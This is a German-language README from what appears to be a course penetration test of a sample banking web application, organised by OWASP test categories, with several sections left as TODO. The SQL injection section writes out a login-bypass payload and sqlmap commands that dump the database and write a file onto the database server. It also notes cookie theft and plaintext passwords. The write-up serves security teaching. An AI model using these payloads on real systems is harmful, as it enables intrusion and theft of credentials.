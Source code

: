 # Pentest WebApplication

## Beschreibung IDE und Tools:
Betriebssystem: Windows 10 Version 1803 (Build 17134.407)  
IDE: IntelliJ IDEA 2018.2.6 (Ultimate Edition) Build #IU-182.5107.16  
Java 9  

Kali Linux  2018.4-vbox-amd64  
OWASP ZAP 2.7.0 

Die zu testende Anwendung:  
https://github.com/TimSro/BiBiFi

## Information Gathering
Durchlauf mit ZAP um Übergabeparameter zu sehen:

![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/info_gathering/ZAP_Scan.png)
      
## Configuration and deployment management testing
# TODO

## Identity Managment Testing
# TODO
Registrierung und Password-Policy vorhanden.  
Account raten ist schwierig, da theoretisch jede eMail zur Anmeldung in Frage kommen kann.   

## Authentication Testing
Username und Passwort werden in der URL und im Request mitgesendet und sind damit anfällig ausgelesen zu werden.  
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/auth/ZAP_Auth_Test.png)
# TODO
Durch den Klau des Cookies JSESSIONID kann man sich authentifizieren.  
![alt text](https://github.com/RocketJulia/Pentest/blob/master/Screenshots/Cookie.png)

## Authorization Testing
Es gibt keine Möglichkeit über das Einloggen als normaler Benutzer auf Funktionen des Admins zuzugreifen.  
Wenn man ausgeloggt ist, bleibt man ausgeloggt.

## Testing for Session Fixation
# TODO

## Input Validation Testing

### SQL Injection
Es ist möglich sich mit folgenden Daten anzumelden:  
Kontonummer: 1 OR Passwort = "Pa55w0rt"  
Passwort = Pa55w0rt  
Dabei kann jedes beliebiges Passwort, welches irgendein Benutzer hat, genutzt werden. (Bspw. durch das Raten von Passwörtern ist ein gültige Passwort auffindbar)  
Anschließend kann man für den ersten Account in der Datenbank mit dem geratenem Passwort den Kontostand sehen.  
Jedoch ist es nicht möglich weitere Aktionen auf dem Account auszuführen.  

Allerding kann man damit eine Blind SQL Injection durchführen.  
Bspw. mit dem Tool sqlmap und dem Kommando:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB="  

Dadruch kann bespielsweise eine Datei im DBMS abgelegt werden:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB=" --file-write"/tmp/datei" --file-dest="C:/ProgramData/MySQL/MySQL Server 8.0/Uploads/datei"  

Oder es kann der gesamte Datenbankinhalt ausgegeben werden:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB=" --dump  
![alt text](https://github.com/RocketJulia/Pentest/blob/master/Screenshots/SQL_Injection.png) 

### XSS
# TODO

## Testing for Error Handling
# TODO
Man bekommt keine Fehlermeldungen angezeigt, wenn man falsche bzw. sinnlose Eingaben tätigt und kann somit auch keine StackTraces auslesen.

## Testing for weak Cryptography
# TODO
Es findet keine verschlüsselte Übertragung von Daten statt, sodass man den Datenfluss abfangen und lesen kann. 
Beispielsweise Passwörter etc.  

Auch die Passwörter in der Datenbank sind nicht verschlüsselt.  
Mit einem Datenbankzugriff via Blind SQL Injection kann man somit alle Anemldedaten im Klartext erhalten. 
Siehe Punkt "SQL Incjection".

## Business Logic Testing
Keine Vorhanden

## Client Side Testing
Die Seite ist gegen Clickjacking geschützt.  
Das haben wir [hiermit](https://github.com/RocketJulia/Pentest/tree/master/Dateien/Clickjacking.html) getestet.  
![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/client_side/Clickjacking.png)
